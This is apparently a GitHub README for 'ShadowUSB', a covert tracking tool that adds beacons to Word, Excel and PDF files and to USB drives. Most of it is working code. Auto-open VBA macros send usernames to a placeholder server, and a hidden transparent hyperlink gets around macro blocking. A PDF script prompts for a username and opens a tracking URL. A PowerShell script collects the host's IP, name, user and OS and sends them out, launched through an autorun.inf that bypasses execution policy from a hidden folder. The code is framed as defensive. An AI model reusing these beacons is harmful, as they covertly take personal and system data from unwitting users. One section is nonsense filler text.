 # ShadowUSB
<picture>
<source media="shadowUSB.jpeg">
</picture>
ShadowUSB is a covert tracking tool designed to monitor and log interactions with untrusted documents and USB drives. By embedding beaconized documents, ShadowUSB tracks when and where files are accessed, offering valuable insights into unauthorized usage. Whether plugged into an unknown machine or opening potentially risky documents, ShadowUSB silently captures the event, providing detailed analytics on user behavior. Ideal for cybersecurity professionals and organizations looking to enhance their threat detection capabilities, ShadowUSB adds an extra layer of security by shedding light on otherwise invisible activities.

## Beaconizing the Doc's
Haxx0r ipsum ascii worm *.* rsa Leslie Lamport it's a feature echo memory leak syn race condition recursively. Packet break root Linus Torvalds case kilo bypass false bytes continue endif sql foad stdio.h pragma chown. Crack else blob infinite loop packet pwned float shell afk.

### Beaconizing Word
Let's beaconize Word. You'll need to have the developer tab in your ribbon for Word. Click VB, make sure your are in ThisDocument, and copy in this code.  Also don't forget to change yourwebserver.com to your server address.
```commandline
Private Sub Document_Open()
    MsgBox "Word Document Opened" ' Debugging message
    Dim HttpReq As Object
    Set HttpReq = CreateObject("MSXML2.ServerXMLHTTP")
    HttpReq.Open "GET", "http://yourwebserver.com/tracker?doc=word&user=" & Environ("USERNAME"), False
    HttpReq.Send
End Sub
```

Mo Macros, Mo Problems... Your company blocks macros/VB.  No problemo.  We will use a shapes and hyperlinks to bypass this.
```commandline
Steps to Create a Whole-Page Link in Word M365

1. Open your Word Document:

 - Start with the document where you want to add the whole-page link.
 
2. Insert a Shape:

 - Go to the Insert tab.
 - Click on Shapes and choose Rectangle.
 - Draw a rectangle that covers the entire page. You can drag the edges of the shape to ensure it covers the full width and height of the page.

3. Make the Shape Transparent:

 - With the rectangle selected, go to the Format tab.
 - Click on Shape Fill and select No Fill.
 - Click on Shape Outline and select No Outline. This will make the rectangle invisible.

4. Add a Hyperlink to the Shape:

 - Right-click on the shape and select Link (or Hyperlink).  e.g., http://yourserver.com/track?doc=word
 - In the dialog box, enter the URL or the location within the document you want to link to.
 - Click OK.

5. Send the Shape to the Back:

 - With the shape still selected, go to the Format tab.
 - Click on Send Backward > Send to Back to ensure it doesn't cover any text or other content on the page.

6. Test the Link:

 - Save your document and test the link by clicking anywhere on the page.
```

### Beaconizing Excel
Let's beaconize Excel. You'll need to have the developer tab in your ribbon for Excel.  Click VB, make sure you are in ThisWorkbook, and copy in this code.  Also don't forget to change yourwebserver.com/ to your web server address.

Visual Basic [VB]
```commandline
Private Sub Workbook_Open()
    Dim HttpReq As Object
    Set HttpReq = CreateObject("MSXML2.ServerXMLHTTP")
    HttpReq.Open "GET", "http://yourwebserver.com/tracker?doc=excel&user=" & Environ("USERNAME"), False
    HttpReq.Send
End Sub
```
As you can guess... Most businesses/users would[SHOULD!] have macros disabled.  To bypass this we will use Excels "Get Data" feature and a hyperlink to our tracking web server.
```commandline
- In Excel, go to the "Data" tab and select "Get External Data."
- Choose "From Web" and enter your tracking URL, e.g., http://yourserver.com/track?doc=excel.
- This will trigger a request when the document is opened, but it might also prompt the user.
```
### Beaconizing PDFs

Here we will beaconize our PDFs.  I am using a combination of JavaScript and Tracking URLs.  I am doing this to try to keep things stealthy.  Usernames via web browsers are tricky but I can get IP Addresses and User Agent info that helps track the end user.

JavaScript Code:
```
var viewerApp = app.viewerType;
var viewerVersion = app.viewerVersion;
var user = app.response("Please enter your username:");


var url = "http://yourwebserver.com/tracker?doc=pdf&user=" + encodeURIComponent(user) + "&app=" + encodeURIComponent(viewerApp) + "&version=" + encodeURIComponent(viewerVersion);

app.launchURL(url, true);
```    
Tracking URL:
```commandline
http://yourserver.com/track?id=UniqueID12345
```
## Backend Tracker 
The tracker.py takes care of the back end tracking.  This is a WIP.  It is basic at the moment but tracks and logs to a track.log file.  It currently uses VB and JavaScript, I am working on making it more stealthy to the end user.

To launch the backend tracker:
```commandline
python tracker.py
or
python3 tracker.py
```
### Tracking/Logging Webpage
I added a webpage to the backend script.  It shows a more C-Level easy to read version of the logs.  You can this with your C-Level/non-tech management.  Also makes it easier to read for "1337 h4xx0rs"... I mean cybersecurity professionals.

To access this feature:
```commandline
http://yourserver.com:8000/logs
```

This gives access to Real-Time Updates:  The logs will update each time the page is refreshed, reflecting the most recent tracking events.

## USB Drive [Hardware] tracking
To track the actual USB drive we will use powershell and auto run.  You can do this with python as well. I may implement that later.  As for now powershell works great.

### Powershell Script for tracking[beaconizing] the physical USB drive.
This powershell script is pretty self explanitory.  It will give you the IP Address, Hostname, Username and OS Version of the user that inserted the drive.  Copy this script save it as tracker.ps1  For stealthiness store this tracker.ps1 and the autorun.inf file in a hidden folder on your ShadowUSB drive.
```commandline
$ip = (Get-NetIPAddress -AddressFamily IPv4 | Where-Object { $_.InterfaceAlias -eq (Get-NetIPConfiguration | Where-Object { $_.NetAdapter.Status -eq 'Up' }).InterfaceAlias } | Select-Object -First 1).IPAddress
$hostname = $env:COMPUTERNAME
$username = $env:USERNAME
$os_version = (Get-WmiObject Win32_OperatingSystem).Version
$user_agent = "$hostname-$username-$os_version"

Invoke-WebRequest -Uri "http://yourwebserver.com/tracker?id=USBTracking&hostname=$hostname&ip=$ip&user=$username&os=$os_version" -UserAgent $user_agent
```

### Autorun via autorun.inf
You can use notepad copy this code and save it as autorun.inf
```commandline
[autorun]
open=powershell -ExecutionPolicy Bypass -File tracker.ps1
action=Run tracking script
label=USB Tracker
```
